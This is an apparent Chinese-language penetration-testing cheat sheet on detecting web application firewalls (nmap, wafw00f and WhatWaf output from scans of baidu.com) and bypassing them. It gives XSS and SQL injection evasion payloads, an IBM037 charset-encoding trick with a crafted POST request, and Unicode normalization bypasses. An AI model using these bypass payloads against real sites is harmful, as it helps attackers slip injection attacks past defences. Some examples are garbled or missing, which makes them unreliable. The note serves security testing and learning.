


## 0x01 WAF检测

**1.nmap脚本**
```
# 只能检测是否存在WAF
$ nmap -p443 --script=http-waf-detect www.baidu.com
Starting Nmap 7.93 ( https://nmap.org ) 
Nmap scan report for www.baidu.com (36.155.132.3)
Host is up (0.023s latency).
Other addresses for www.baidu.com (not scanned): 36.155.132.76 2409:8c20:6:1d55:0:ff:b09c:7d77 2409:8c20:6:1135:0:ff:b027:210c

PORT    STATE SERVICE
443/tcp open  https
| http-waf-detect: IDS/IPS/WAF detected:
|_www.baidu.com:443/?p4yl04d3=<script>alert(document.cookie)</script>

Nmap done: 1 IP address (1 host up) scanned in 0.51 seconds

```

**2.Kali自带wafw00f**
```
# 有可能是baidu对waf响应标识进行隐藏导致未检测出具体的waf类型
$ waf00f https://www.baidu.com
[*] Checking https://www.baidu.com
[+] Generic Detection results:
[*] The site https://www.baidu.com seems to be behind a WAF or some sort of security solution
[~] Reason: The server header is different when an attack is detected.
The server header for a normal response is "BWS/1.1", while the server header a response to an attack is "Apache",
[~] Number of requests: 7
```
**2.whatwaf**
项目地址: https://github.com/Ekultek/WhatWaf
```
# 检测精度较高
$ whatwaf -u https://baidu.com
```


## 0x02 WAF绕过方式

### 1. 绕过正则表达式WAF
常用方式:
* payload大小写
* payload编码
* payload替换函数或字符
* payload使用换行符或制表符
* 混淆

举例:
```
<ScRipt>alert(Hack)<sCrIpt> # 大小写
<script>alert`Hack`</script> # 替换字符
java%0ascript:alert(Hack) # 使用编码
 # 使用空格替代符 /
javascript:74163166147401571561541571411447514115414516216450615176 # 十进制编码
/?id=1+un/**/ion+sel/**/ect+1,2,3-- # 注释
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+ #base64编码
```

**更多参考资源**:
* [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
* [OWASP_XSS_Filter_Evasion_Cheat_Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)


### 2.绕过未检测字符集WAF
```
修改Content-Type的字符集为IBM037
科员python实现编码转换
import urllib.parse 
s = '<script>alert("xss")</script>'
urllib.parse.quote_plus(s.encode( "IBM037" ))
'L%A2%83%99%89%97%A3n%81%93%85%99%A3M%7F%A7%A2%A2%7F%5DLa%A2%83%99%89%97%A3n '

修改完成后上传

POST /comment/post HTTP/1.1
Host: chatapp
Content-Type: application/x-www-form-urlencoded; charset=ibm037
Content-Length: 74
%A2%83%99%89%97%A3n%81%93%85%99%A3M%7F%A7%A2%A2%7F%5DLa%A2%83%99%89%97%A3
```

### 3.Unicode兼容性绕过


Unicode字符编码，将视觉上相近但不同的字符在不同标准夏分解为相同的抽象字符，通常有4种Unicode规范化算法:
* NFC：标准化形式规范组合
* NFD：规范化形式规范分解
* NFKC：标准化形式兼容性组合
* NFKD：规范化形式兼容性分解

参考: 
* https://www.unicode.org/reports/tr15/
* https://www.compart.com/en/unicode


通过构造兼容性的Unicode字符，经过NFKC/NFKD规范化可绕过WAF在后端进行等效执行,例如:
```
可以被WAF检测到,使用 Unicode 兼容字符 ( ) 构造的有效负载将检测不到
```
具体参考: https://jlajara.gitlab.io/Bypass_WAF_Unicode
